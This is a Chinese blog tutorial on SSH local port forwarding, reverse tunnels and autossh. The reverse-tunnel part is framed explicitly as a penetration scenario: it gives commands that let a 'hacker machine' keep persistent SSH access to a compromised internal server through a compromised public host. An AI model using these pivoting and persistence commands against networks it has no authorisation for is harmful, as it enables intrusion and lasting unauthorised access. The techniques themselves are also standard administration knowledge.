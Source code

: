 **目录**

[SSH做本地端口转发](#t0 "SSH做本地端口转发")

[SSH做反向隧道(远程端口转发)](#t1 "SSH做反向隧道(远程端口转发)")

[用autossh建立稳定隧道](#t2 "用autossh建立稳定隧道")

* * *

[SSH](https://so.csdn.net/so/search?q=SSH&spm=1001.2101.3001.7020)开启端口转发需要修改 /etc/ssh/sshd\_config配置文件，将 GatewayPorts修改为yes

![](https://img-blog.csdnimg.cn/20190823113011798.png)

```
-f 后台执行ssh指令      
-C 允许压缩数据      
-N 不执行远程指令      
-R 将远程主机(服务器)的某个端口转发到本地端指定机器的指定端口      
-L 本地端口转发      
-D 动态端口转发
```


### SSH做本地端口转发

现在我们有这样一种情景，服务器A上有Redis数据库，并且我们知道Redis数据库的密码。但是Redis数据库只监听本地的6379端口，也就是127.0.0.1:6379，现在我们需要连接该Redis数据库，读取其中的数据。那么，我们就可以用SSH做本地[端口转发](https://so.csdn.net/so/search?q=%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91&spm=1001.2101.3001.7020)，在服务器A上监听16379端口，当连接该主机的16379端口时，16379端口相当于正向代理，将我们的流量给本地的6379端口，再将6379端口返回的流量给我们的主机

![](https://img-blog.csdnimg.cn/20190812213616645.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
ssh -fCNL *:16379:localhost:6379 localhost  #本地监听16379端口，将16379端口的流量都转发给6379端口
```


### SSH做反向隧道(远程端口转发)

> 注意：这里公网服务器B和内网服务器A都必须是Linux系统，才能建立SSH隧道

现在我们有这么一个环境，我们拿到了公网服务器B的权限，并通过公网服务器B进一步内网渗透，拿到了内网服务器A的权限。但是现在我们想要在自己的Kali机器上，获取内网服务器A的一个稳定持久的SSH权限。那么，我们可以通过SSH反向隧道，来得到内网服务器A的一个SSH权限。我们可以将内网服务器A的22端口远程转发到公网服务器的1234端口。

通俗地说，就是在机器A上做到B机器的反向代理；然后在B机器上做正向代理实现远程端口的转发

![](https://img-blog.csdnimg.cn/20190601214317518.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

首先，在内网服务器A的操作

```
反向代理      
ssh -fCNR  192.168.10.139:8888:localhost:22  root@192.168.10.139  #意思就是将A机器的22号端口的流量都转发给B机器的8888端口
```


![](https://img-blog.csdnimg.cn/20190601214547958.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后，公网服务器B的操作

```
正向代理      
ssh -fCNL  *:1234:localhost:8888 localhost  #意思就是将本地监听的1234端口的流量都转发给本地的8888端口
```


![](https://img-blog.csdnimg.cn/20190601214511824.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

接着，在黑客机器C的操作，通过ssh公网服务器B的某个端口实现ssh内网服务器A的22号端口

```
ssh -p 1234 root@100.100.10.12   #ssh连接到公网服务器的1234端口
```


![](https://img-blog.csdnimg.cn/2019060121470359.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**所以最终流量的走向是这样的**：黑客SSH到公网服务器B的1234端口，公网服务器B监听了本地的1234端口，将流量转发到本地的8888端口，于是内网服务器A将本地的22号端口反向代理到了公网服务器B的8888端口，公网服务器B又将8888端口的流量转发到了本地的1234端口，所以黑客SSH连接到了内网服务器A。

![](https://img-blog.csdnimg.cn/20190601223005612.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**缺点**：这种ssh反向链接会因为超时而关闭，如果关闭了那从外网连通内网的通道就无法维持了，为此我们需要另外的方法来提供稳定的ssh反向代理隧道。

### **用autossh建立稳定隧道**

安装autossh：yum install autossh

autossh的参数与ssh的参数是一致的，但是不同的是，在隧道断开的时候，autossh会自动重新连接而ssh不会。另外不同的是我们需要指出的-M参数，这个参数指定一个端口，这个端口是外网的B机器用来接收内网A机器的信息，如果隧道不正常而返回给A机器让他实现重新连接。  
在内网A机器上的操作：

```
反向代理      
autossh -M 9999 ssh -fCNR  192.168.10.139:8888:localhost:22  root@192.168.10.139
```


 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[实战SSH端口转发](https://www.ibm.com/developerworks/cn/linux/l-cn-sshforward/index.html#icomments "实战SSH端口转发")

                 [使用SSH反向隧道进行内网穿透](https://blog.csdn.net/jiangbenchu/article/details/84438959 "使用SSH反向隧道进行内网穿透")

相关文章：[内网转发](https://blog.csdn.net/qq_36119192/article/details/84568266#%C2%A0NC%E5%AE%9E%E7%8E%B0%E5%8F%8D%E5%BC%B9shell "内网转发")

文章知识点与官方知识档案匹配，可进一步学习相关知识

[CS入门技能树](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[Linux入门](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[初识Linux](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)10949 人正在系统学习中